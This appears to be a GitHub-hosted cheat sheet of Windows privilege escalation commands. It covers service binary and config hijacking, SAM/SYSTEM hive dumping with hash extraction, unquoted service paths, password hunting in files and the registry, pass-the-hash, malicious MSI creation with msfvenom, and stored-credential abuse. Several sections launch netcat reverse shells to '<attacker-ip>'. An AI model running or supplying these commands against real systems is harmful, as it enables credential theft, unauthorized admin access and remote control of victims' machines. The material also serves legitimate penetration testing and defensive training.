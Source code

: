 #####################################
Windows Privilege Escalation Examples
#####################################

<details>
<summary>Weak Service Permissions</summary>
 <br> 
========================

Writable Service Executables
----------------------------

If a services is found which runs as SYSTEM or Administrator level users, and it has weak file permissions, we may be able to replace the service binary, restart the service, and escalate privileges.

Use wmic to extract a list of service executables:

.. code-block:: none

    for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\services.txt

If wmic is not available:

.. code-block:: none

    sc query state= all | findstr "SERVICE_NAME:" >> servicenames.txt
    FOR /F "tokens=2 delims= " %i in (servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt

Then use either accesschk.exe, cacls, or icacls to list the access permissions associated with each service executable:

.. code-block:: none

    for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c accesschk.exe /accepteula -qv "%a" >> accesschk.txt

    for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c cacls "%a" >> cacls.txt

    for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c icacls "%a" >> icacls.txt

With accesschk results, look for the following permissions:

.. csv-table::
    :header: "Permission", "Use Case"

    "SERVICE_ALL_ACCESS", "Can do anything."
    "SERVICE_CHANGE_CONFIG", "Can reconfigure the service binary."
    "WRITE DAC", "Can reconfigure permissions, leading to SERVICE_CHANGE_CONFIG."
    "WRITE_OWNER", "Can become owner, reconfigure permissions."
    "GENERIC_WRITE", "Inherits SERVICE_CHANGE_CONFIG"
    "GENERIC_ALL", "Inherits SERVICE_CHANGE_CONFIG"

With cacls and icacls, look for (F)ull Access, (M)odify access, (W)rite-only access, (WDAC) write DAC, or (WO) write owner.

Writable Service Objects
------------------------

Use accesschk.exe to find writable service objects:

.. code-block:: none

    accesschk.exe /accepteula -uwcqv "Authenticated Users" *

Query a vulnerable service:

.. code-block:: none

    sc qc <service>

Update the service binary path:

.. code-block:: none

    sc config <service> binpath= "<command>"

Update the name of the account which a service runs as:

.. code-block:: none

    sc config upnphost obj= ".\LocalSystem" password= ""

Stop / Start a service:

.. code-block:: none

    wmic service <service> call stopservice
    wmic service <service> call startservice

    net stop <service>
    net start <service>

    sc stop <service>
    sc start <service>

If the service fails to start because of a dependency, you can start the dependency manually, or remove the dependency:

.. code-block:: none

    sc config <service> depend= ""

All-in-one comnand:

.. code-block:: none

    sc config <service> binPath= "<command>" depend= "" start= demand obj= ".\LocalSystem" password= ""
</details>

<details>
<summary>SeBackupPrivilege</summary>
 <br> 
This specific privilege escalation is based on the act of assigning a user the SeBackupPrivilege. It was designed to allow users to create backup copies of the system. Since it is not possible to make a backup of something that you cannot read. This privilege comes at the cost of providing the user with full read access to the file system. This privilege must bypass any ACL that the Administrator has placed in the network. So, in a nutshell, this privilege allows the user to read any file on the entirety of the files that might also include some sensitive files.

Files like the SAM file or the SYSTEM registry file are particularly valuable to attackers. Once an attacker gains an initial foothold in the system, they can exploit this access to move up to an elevated shell. They do this by reading the SAM files and potentially cracking the passwords of high-privilege users on the system or network.

After connecting to the target machine using Evil-WinRM, we can check if the user we logged in has the SeBackupPrivilege. This can be done with the help of the whoami command with the /priv option. It can be observed from the image below that the user aarti has the SeBackupPrivilege.

    whoami /priv



## Exploiting Privilege on Windows
Now, we can start the exploitation of this privilege. As we discussed earlier that this privilege allows the user to read all the files in the system, we will use this to our advantage. To begin, we will traverse to the C:\ directory and then move to create a Temp directory. We can also traverse to a directory with read and write privileges if the attacker is trying to be sneaky. Then we change the directory to Temp. Here we use our SeBackupPrivilege to read the SAM file and save a variant of it. Similarly, we read the SYSTEM file and save a variant of it.

     cd c:\
     mkdir Temp
     reg save hklm\sam c:\Temp\sam
     reg save hklm\system c:\Temp\system

  

Transferring Files to Kali Linux
Now that the Temp directory contains the SAM and SYSTEM files, use the Evil-WinRM download command to transfer these files to your Kali Linux machine.

    cd Temp
    download sam
    download system
## Extracting Hashes with Pypykatz and Gaining Access
Now, we can extract the hive secrets from the SAM and SYSTEM files using the pypykatz. If not present on your Kali Linux, you can download it from its GitHub[https://github.com/skelsec/pypykatz]. It is a variant of Mimikatz cooked in Python. So, we can run its registry function and then use the –sam parameter to provide the path to the SAM and SYSTEM files. As soon as the command run, we can see in the demonstration below that we have successfully extracted the NTLM hashes of the Administrator account and other users as well.

    pypykatz registry --sam sam system

Now, we can use the NTLM Hash of the raj user to get access to the target machine as a raj user. We again used Evil-WinRM to do this. After connecting to the target machine, we run net user to see that raj user is a part of the Administrator group. This means we have successfully elevated privilege over our initial shell as the aarti user.

 </details>
<details>
<summary>Unquoted Service Pathss</summary>
 <br> 

----------------------

Find unquoted service paths:

.. code-block:: none

    wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

If the unquoted service path is :code:`C:\Program Files\path to\service.exe`, you can place a binary in any of the following paths:

.. code-block:: none

    C:\Program.exe
    C:\Program Files.exe
    C:\Program Files\path.exe
    C:\Program Files\path to.exe
    C:\Program Files\path to\service.exe

</details>
<details>
<summary>Cleartext Passwords</summary>
 <br> 

===================

Find passwords in arbitrary files:

.. code-block:: none

    findstr /si password *.txt *.xml *.ini

Find strings in filenames:

.. code-block:: none

    dir /s *pass* == *cred* == *vnc* == *.config*

Find passwords in all files:

.. code-block:: none

    findstr /spin "password" *.*

Common files which contain passwords:

.. code-block:: none

    type c:\sysprep.inf
    type c:\sysprep\sysprep.xml
    type c:\unattend.xml
    type %WINDIR%\Panther\Unattend\Unattended.xml
    type %WINDIR%\Panther\Unattended.xml
    dir c:*vnc.ini /s /b
    dir c:*ultravnc.ini /s /b
    dir c:\ /s /b | findstr /si *vnc.ini

Search for passwords in the registry:

.. code-block:: none

    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
    reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
    reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

</details>
<details>
<summary>Passing the Hash</summary>
 <br> 
================

The following commands can be used to dump password hashes:

.. code-block:: none

    wce32.exe -w
    wce64.exe -w
    fgdump.exe

Remote
------

Pass the hash remotely to gain a shell:

.. code-block:: none

    pth-winexe -U <domain>/<username>%<hash> //<target-ip> cmd

Sometimes you may need to reference the target by its hostname (add an entry to /etc/hosts to make it resolve):

.. code-block:: none

    pth-winexe -U <domain>/<username>%<hash> //<target-hostname> cmd

Alternative:

.. code-block:: none

    export SMBHASH=<hash>
    pth-winexe -U <domain>/<username>% //<target-ip> cmd

Local
-----

Pass the hash locally using runas:

.. code-block:: none

    C:\Windows\System32\runas.exe /env /noprofile /user:<username> <hash> "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"

Pass the hash locally using PowerShell:

.. code-block:: none

    secpasswd = ConvertTo-SecureString "<hash>" -AsPlainText -Force
    mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
    computer = "<hostname>"
    [System.Diagnostics.Process]::Start("C:\Windows\Temp\nc.exe","<attacker-ip> 53 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)

Pass the hash locally using psexec:

.. code-block:: none

    psexec64 \\<hostname> -u <username> -p <hash> -h "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"

</details>
<details>
<summary>Loopback Services</summary>
 <br> 
=================

Search for services listening on the loopback interface:

.. code-block:: none

    netstat -ano | findstr "LISTEN"

Use plink.exe to forward the loopback port to a port on our attacking host (via SSH):

.. code-block:: none

    plink.exe -l <attacker-username> -pw <attacker-password> <attacker-ip> -R <attacker-port>:127.0.0.1:<target-port>

</details>
<details>
<summary>AlwaysInstallElevated</summary>
 <br> 
=====================

AlwaysInstallElevated is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions.

Both the following registry values must be set to "1" for this to work:

.. code-block:: none

    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Create a malicious MSI:

.. code-block:: none

    msfvenom -p windows/adduser USER=pwned PASS=P@ssw0rd -f msi -o evil.msi

Use msiexec to run the malicious MSI:

.. code-block:: none

    msiexec /quiet /qn /i C:\evil.msi

</details>
<details>
<summary>Stored Credentials</summary>
 <br> 

==================

If there are stored credentials, we can run commands as that user:

.. code-block:: none

    $ cmdkey /list

    Currently stored credentials:

    Target: Domain:interactive=PWNED\Administrator
    Type: Domain Password
    User: PWNED\Administrator

Execute commands by using runas with the /savecred argument. Note that full paths are generally needed:

.. code-block:: none


    runas /user:PWNED\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\Public\nc.exe -nv <attacker-ip> <attacker-port> -e cmd.exe"

   </details>
